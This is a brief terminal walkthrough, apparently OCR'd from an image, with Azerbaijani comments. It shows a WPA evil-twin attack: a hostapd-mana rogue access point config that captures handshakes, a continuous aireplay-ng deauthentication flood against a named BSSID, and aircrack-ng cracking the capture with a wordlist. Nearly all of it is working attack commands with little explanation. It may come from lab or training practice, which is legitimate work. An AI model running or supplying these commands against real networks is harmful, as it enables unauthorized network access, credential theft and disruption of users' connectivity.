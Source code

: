 kali@kali:~$ cat Mostar-mana.conf
```
interface=wlan0
ssid=Mostar
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP CCMP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/mostar.hccapx
```

kali@kali:~$ sudo aireplay-ng -0 0 -a FC:7A:2B:88:63:EF wlan1mon


ise salannan sonra gozleyirik ki client bize qosulsun ozumuzu aktiv edirik

kali@kali:~$ sudo hostapd-mana Mostar-mana.conf 




aircrack-ng mostar.hccapx -e Mostar -w /usr/share/john/password.lst

sonrada sindir getsin
